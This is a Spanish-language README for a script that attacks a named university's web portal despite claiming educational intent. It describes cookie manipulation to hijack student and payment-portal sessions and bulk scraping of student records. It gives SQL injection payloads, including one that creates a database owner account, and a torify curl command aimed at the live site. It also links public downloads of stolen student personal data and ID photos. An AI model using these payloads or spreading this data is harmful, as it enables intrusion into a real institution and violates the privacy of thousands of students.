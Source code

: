 
<div align="end">
<img
 style="object-fit: cover;"
 src="./assets/icons8-hack-60.png" >
</div>

# Script scraping vunerability from uped portal

> [!CAUTION]
> Este script fue creado con fines educativos,en ningun momento se pretende hacer daño a la universidad o a su portal web al contrario se pretende ayudar a mejorar la seguridad de la misma

## 🗒️ Descripcion

Script que permite obtener la información de estudiantes y la sesion de un usuario en el portal de la universidad. Ademas de poder inyectar codigo SQL en una cookie en la base de datos de la universidad.

## 🍪 En que consiste la vulnerabilidad

La vunerabilidad consiste en manipular la cookie de una session para obtener la informacion de un usuario sin necesidad de logearse en el portal de la universidad.

la estructura de cookie es la siguiente:

```json
{
  ".ASPXAUTH": "puede ser cualquier sesion",
  "ASP.NET_SessionId": "id de la session del autenticacion",
  "CodigoUsuario": "codigo del usuario",
  "usuario": "nombre del usuario",
}
```

## 📋 Requisitos

- Node.js v20.0.0

## 🚀 Instalación

```bash
git clone https://github.com/epmyas2022/uped-vunerabilidad.git
```

```bash
npm install
```

Configurar las variables de entorno en el archivo `.env`

```env
ASPXAUTH=#de cualquier sesion
SESSION_ID=#id de la session del autenticacion
ARGS=#argumentos para el navegador
```

## 💻 Comandos

Obtener la informacion del expediente de los estudiantes basados en un rango  x1 a x2

```bash
npm run general <x1> <x2> [optional | Boolean] <headless>
```

Obtener la sesion de un usuario

```bash
npm run login <user> <codigo>
```

Obtener la sesion del portal de pagos de un estudiante

```bash
npm run pagos <user> <codigo>
```

## 🐳 Con docker

Esto es util para ejecutar el script en un contenedor docker, podriamos ejecutar x cantidad de contenedores para obtener la informacion de los estudiantes.

Construir la imagen (builder)

```bash
docker build -f .docker/Dockerfile --target builder -t uped-vunerabilidad .
```

Construir el contenedor

```bash
docker run -it -d -e ASPXAUTH=token -e SESSION_ID=id -e FROM=desde -e TO=hasta --privileged --security-opt seccomp=.docker/chrome.json uped-vunerabilidad
```

## 📂 Estructura de archivos

Dentro de la carpeta data se encuentra varios datos con que se comprobo la vulnerabilidad del portal de la universidad. estos datos obtenidos fueron mediante el script aprovechando la vulnerabilidad.
en total existen aproximadamente **20,485** registros de estudiantes.

## 💉 Vunerabilidad de inyeccion de SQL

Se descubrio otra vunerabilidad que permite inyectar codigo SQL en una cookie y mediante esto se logro obtener acceso a la base de datos de la universidad. La url a la que se le inyecto el codigo SQL fue la siguiente:

```url
https://myappcloud.net/uped/portal_catedratico/externa.aspx
```

Ejemplo de inyeccion SQL

Con esto se valida si es vulnerable a inyeccion SQL si es vunerable se demorara 20 segundos en responder.

```sql
' BEGIN WAITFOR DELAY '0:0:20'--
```

Con la siguiente inyeccion se logro encontrar cual es el nombre de la base de datos de la universidad.

```sql
' IF EXIST (SELECT 1 FROM sys.databases WHERE name LIKE '%uonline_uped%') BEGIN WAITFOR DELAY '0:0:20' END--
```

Con la siguiete inyeccion se logro crear un usuario en la base de datos de la universidad para su posterior uso.

```sql
'IF  (SELECT COUNT(*) FROM sys.databases WHERE name LIKE 'uonline_uped') > 0 BEGIN USE uonline_uped CREATE LOGIN mssql_user WITH password = 'your_password' CREATE USER mssql_user FOR LOGIN mssql_user ALTER ROLE db_owner ADD MEMBER mssql_user WAITFOR DELAY '0:0:20' END--
```

Ejemplo de `curl` para inyectar codigo SQL

```bash
torify curl -X GET "https://myappcloud.net/uped/portal_catedratico/externa.aspx" \
  --cookie ".ASPXAUTH=<auth_de_cualquier_sesion>" \
  --cookie "ASP.NET_SessionId=<id_de_cualquier_sesion>" \
  --cookie "CodigoUsuario=1789" \
  --cookie "Usuario=<injection_sql>" 
```

## 💻 Descargar datos

- Tabla de *ra_per_personas* (informacion de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZvRx55ZgUc7an7IIyfF27CLa93Wo7KCf6Yy)

- Tabla de *ra_per_foto_carne* (foto de carne de estudiantes) [aqui](https://u.pcloud.link/publink/show?code=XZ9sx55ZEXFqi3MoUjzyXUdw1isK1jm1Wu0y)

## 🔗 Sitios vulnerables

- [x] Portal de la universidad [aqui](https://myappcloud.net/uped/login.aspx)
- [x] Portal de pagos [aqui](https://saas.spsoftware.net/uped_pagos/)
- [x] Base de datos uonline_uped [aqui](https://myappcloud.net/uped/portal_catedratico/externa.aspx)
